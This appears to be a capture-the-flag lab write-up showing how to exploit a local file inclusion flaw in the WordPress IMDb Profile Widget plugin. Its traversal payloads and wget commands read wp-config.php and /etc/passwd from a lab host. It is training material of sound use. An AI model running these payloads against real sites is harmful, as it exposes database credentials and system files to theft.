 ﻿![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.001.png)

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.002.png)
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">WordPress IMDb Widget </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=482>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : Local File Inclusion </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.004.jpeg)**Step 2:** Search on google “WordPress IMDb Profile Widget Plugin local file inclusion” and look for publically available exploits.**  

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.005.jpeg)

The exploit db link contains the LFI payload and the information regarding the vulnerable web page. 

**Exploit DB Link: <https://www.exploit-db.com/exploits/39621>** ![ref1]

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.006.jpeg)

**Step 3:** Using the information provided at exploit db link, form the target URL and navigate to it.  **Vulnerable Webpage:**  /wp-content/plugins/imdb-widget/pic.php 

**Vulnerable Parameter:** url 

**Payload:** ../../../wp-config.php 

**Target URL: ![ref1]**http://43hrtil2hlr9bporchj5ki3ay.asia.attackdefenselabs.com/wp-content/plugins/imdb-widget/pic. php?url=../../../wp-config.php 

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.007.jpeg)

The included PHP script is rendered as an image. 

**Step 4:** Download the file using wget and view its content. Download the file and save it as “output” 

**Command:** wget "http://43hrtil2hlr9bporchj5ki3ay.asia.attackdefenselabs.com/wp-content/plugins/imdb-widget/pic .php?url=../../../wp-config.php" -O output ![ref1]

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.008.jpeg)

View the content of “output” file. **Command:** cat output ![ref1]

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.009.jpeg)

The content of “wp-config.php” script was retrieved. 

**Step 5:** Modify the payload used in previous step and retrieve the content of “/etc/passwd” file. **Payload:** ../../../../../../../etc/passwd 

**Command:** 

wget "http://43hrtil2hlr9bporchj5ki3ay.asia.attackdefenselabs.com/wp-content/plugins/imdb-widget/pic .php?url=../../../../../../../etc/passwd" -O output 

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.010.jpeg)

View the content of “output” file. ![ref1]**Command:** cat output 

![](Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.011.jpeg)

The content of “/etc/passwd” file was retrieved. **References:**  

1. imdb-widget (<https://wordpress.org/plugins/imdb-widget/>)  ![ref1]
1. WordPress Plugin IMDb Profile Widget 1.0.8 - Local File Inclusion (<https://www.exploit-db.com/exploits/39621>)  

[ref1]: Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.003.png
